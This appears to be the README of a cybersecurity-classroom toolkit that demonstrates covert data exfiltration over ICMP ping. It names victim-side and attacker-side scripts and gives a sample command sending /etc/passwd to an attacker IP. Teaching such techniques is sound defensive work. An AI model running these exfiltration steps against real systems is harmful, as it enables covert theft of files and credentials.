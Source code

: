 ## About:
These programs demostrate how an attacker can exfiltrate data using the icmp protocol.  
They are designed for use in a cybersecurity classroom.  

## Programs Included:
- exfil.sh: This program sends files **FROM the VICTIM** machine over ping.   
- listen.sh: This runs the tcpdump command and produces the output (data.dmp)  
- pyarray.py: This program parses through data.dmp file.  
- rebuild.sh: This script runs pyarray, produces hexout, and prints the recieved file in plaintext.  

## Directions:

Copy listen.sh, pyarray.py, and rebuild.sh to the **ATTACKER** machine.  
Run  
```
./listen.sh  
```

Copy exfil.sh to the VICTIM MACHINE  
Usage: ./exfil.sh <file_to_transfer> <ip_address_of_attacker>  
Example:
```
./exfil.sh /etc/passwd 192.168.14.5
```

Use CTRL-C to stop listen.sh  machine.  
(You should see a file called data.dmp) --tcpdump output of all ping requests heard from the victim.  

Run  
```
./rebuild.sh 
```
The file sent from the victim will be printed in plain text.  



